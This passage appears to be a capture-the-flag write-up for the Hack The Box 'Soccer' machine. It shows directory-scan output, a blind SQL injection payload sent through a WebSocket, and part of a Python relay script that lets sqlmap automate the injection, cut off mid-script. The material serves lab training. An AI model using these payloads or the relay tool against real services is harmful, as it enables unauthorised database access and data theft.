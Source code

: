 ```sh
/Logout               (Status: 302) [Size: 23] [--> /]
/signUp               (Status: 200) [Size: 3741]
/Match                (Status: 200) [Size: 10078]
/LogIn                (Status: 200) [Size: 3307]
Progress: 116590 / 220561 (52.86%)[1]  + killed     leafpad note_soccer.txt
/LOGIN                (Status: 200) [Size: 3307]
Progress: 220534 / 220561 (99.99%)
===============================================================
2023/04/25 02:11:17 Finished
===============================================================
```

Perform Signup and Login 
Web display 1 function search for ticket -> using Web socket

Exploit Web socket

```sh
Server: http://soc-player.soccer.htb:9091/
{"id":"53801 or substring(version(),1,1)=8"}
```
-> this is Blind SQL injection

Using File python [Automating Blind SQL Injection](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) before i use sqlmap to auto leak data.

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
```
